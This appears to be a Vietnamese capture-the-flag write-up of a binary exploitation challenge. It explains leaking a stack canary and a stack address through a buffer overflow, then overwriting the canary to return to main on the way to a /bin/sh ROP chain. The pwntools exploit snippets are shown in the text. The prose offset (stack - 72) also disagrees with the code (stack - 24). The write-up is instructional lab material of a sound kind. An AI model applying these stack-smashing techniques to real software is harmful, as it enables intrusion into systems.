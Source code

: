 - Bài này cung cấp cho ta đủ các pop nên khác là dễ dàng, chỉ thiếu chuỗi /bin/sh
- Ở đây ta thấy chỗ này
  ![image](https://user-images.githubusercontent.com/111769169/230182136-b9b7eae1-6830-4153-921a-0e60e5a243f8.png)
- việc chắc chắn ta phải làm là ghi đè byte 0x00 của canary để %s in ra canary, tuy vậy ta thấy nó có thể leak địa chỉ stack =))
- Vậy chỉ cần payload của ta có /bin/sh và từ địa chỉ ta leak được ta sẽ tính được địa chỉ chứa chuỗi /bin/sh
- Nhưng bài này không dễ ăn =))

## Khai thác

### leak canary, stack

- Do %s in ra buf mà buf có lỗi BOF, có thể ghi đè byte 0x00 của canary để %s in được canary và stack

```python
    payload = b"a" * 50
    r.sendafter(b"name ?\n", payload)
    r.recvuntil(b"a" * 48)
    canary = u64(r.recv(8)) - 0x61
    log.info("canary: " + hex(canary))
    stack = u64(r.recv(6) + b"\0\0")
    log.info("stack: " + hex(stack))
    ow_canary = stack - 24
    log.info("addr canary: " + hex(ow_canary))
```

- Do là lần nhập thứ 2 ta thấy code C, hàm read truyền vào địa chỉ, do đó nếu ta đưa vào địa chỉ stack chứa canary, để lần thứ 3 ta ghi lại canary
- Đó là lí do tại sao ta cần phải tính `ow_canary = stack - 72`

```c
  puts("What is rop ?");
  read(0, &v3, 0x100uLL);
```

```python
    r.sendafter(b"rop ?\n", p64(ow_canary))

    payload = p64(canary) + b"a" * 8 + p64(exe.sym['main'] + 5)
    r.sendafter(b"enabled?\n", payload)
```

- Tuy nhiên ta bị lỗi canary bị ghi đè mặc dù ta đã ghi đè đúng

  ![image](https://user-images.githubusercontent.com/111769169/230187261-cad003d5-c0d2-4252-b9f0-c42610b3a5f0.png)
  ![image](https://user-images.githubusercontent.com/111769169/230187415-12239a4b-1445-4635-b82d-b525a780f898.png)

- Do đó ta cần phải debug cẩn thận, ta thấy có chỗ check canary và đề so sánh với rax

  ![image](https://user-images.githubusercontent.com/111769169/230187849-6f083d96-93db-4863-bde7-0e4ddb1153da.png)
